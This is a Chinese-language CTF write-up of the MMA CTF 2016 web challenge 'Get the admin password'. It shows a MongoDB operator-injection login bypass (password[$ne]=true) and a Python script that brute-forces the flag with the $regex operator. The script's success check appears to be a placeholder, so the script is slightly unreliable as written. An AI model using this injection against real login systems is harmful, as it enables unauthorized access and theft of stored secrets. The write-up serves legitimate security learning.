 title: '[MMA CTF 2nd 2016] Get the admin password 100'
author: bananaapple
tags:
  - web
  - sql injection
categories:
  - write-ups
date: 2016-09-06 00:45:00
---

# 漏洞解析

感謝隊友 Ann Tsai 試出來漏洞

我這裡負責剪尾刀把 script 寫完

大概試了一下可以發現漏洞是 sql injection 

只是由於 database 是 nosql 稍微有點不一樣

相關內容可以參考以下的這篇文章

https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/

POST http://gap.chal.ctf.westerns.tokyo/login.php

user=admin&password[$ne]=true&submit=true

就能夠成功登入

`$ne` 是 `not equal` operator

所以說要是資料庫裡的 password not equal 輸入的 password

就能夠成功登入

接下來的 payload 就會利用控制 operator 的方式爆出密碼

# payload

mongoDB 可以使用的 operator 可以參考以下連結

https://docs.mongodb.com/manual/reference/operator/query/

在這裡我使用的 `regex` operator

想法是 `regex` 的 pattern 使用 `^TWCTF{` 

代表 `TMCTF{` 開頭的字串

然後一個一個字元加 把 flag 爆出來

注意一下跳脫字元即可

payload 如下

```python3
#!/usr/bin/env python3
import requests
import string
import re
url = 'http://gap.chal.ctf.westerns.tokyo/login.php'
flag = '^TWCTF{'
print(string.printable)
while True:
    for c in string.printable:
        qq = flag+re.escape(c)
        print(qq)
        payload = {'user': 'admin', 'password[$regex]': qq,'submit': True}
        r = requests.post(url,payload)
        if 'TWCTF{...}' in r.text:
            flag+=c
            print(flag)
            break
```

# flag

```
TWCTF{wasshoi!summer_festival!}
```